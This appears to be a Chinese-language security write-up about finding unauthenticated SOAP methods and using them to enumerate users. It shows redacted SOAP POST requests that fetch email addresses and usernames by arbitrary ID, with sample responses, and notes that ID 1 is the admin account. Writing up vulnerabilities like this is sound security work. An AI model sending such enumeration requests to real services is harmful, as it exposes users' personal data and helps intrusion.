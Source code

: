 安全小白团  
  
  
在获得无认证SOAP方法的访问权限后，我的首要目标是枚举内部用户并确认后端交互。  
  
  
发现敏感用户信息  
  
  
由于存在读取用户邮箱、用户名等方法，我开始测试Re***Email方法，使用以下SOAP POST请求：  
  
```
POST /***/****/****/**finance_users/ HTTP/1.1 
Host: target.com 
Content-Type: text/xml; charset=utf-8
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelopexmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"xmlns:web="http://***.***/">
 <soapenv:Header/>
 <soapenv:Body>
  <web:Re***Email>
   <id***>242</id***>
 </web:Re***Email>
 </soapenv:Body>
</soapenv:Envelope>
```  
  
响应确认，即使是任意ID（如242），如果用户存在，也会返回有效数据：  
  
```
HTTP/1.1 200 OK 
Date: Fri, 25 Apr 2025 12:27:49 GMT 
Server: Apache 
X-Frame-Options: SAMEORIGIN 
X-Powered-By: *** 
Content-Type: text/xml;charset=UTF-8 
***** 
X-XSS-Protection: 1; mode=block 
X-Content-Type-Options: nosniff 
Content-Security-Policy: default-src 'self' 
X-Content-Security-Policy: default-src 'self' 
X-WebKit-CSP: default-src 'self' 
Content-Length: 271

<env:Envelopexmlns:env='http://schemas.xmlsoap.org/soap/envelope/'><env:Header></env:Header><env:Body><**:**exmlns:ns2="http://**.**/"><return>**@***</return></**:***Email**></env:Body></env:Envelope>
```  
  
类似的请求使用ReadUserName揭示了内部用户名——注意ID1 = Admin：  
  
```
POST /**/***/*** HTTP/1.1
Host: sub.domain.main-domain.com
Content-Type: text/xml; charset=utf-8
Content-Length: 337
<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://***.***/">
  <soapenv:Header/>
  <soapenv:Body>
    <web:ReadUserName>
      <id***>1</id***>
    </web:ReadUserName>
  </soapenv:Body>
</soapenv:Envelope>
```  
  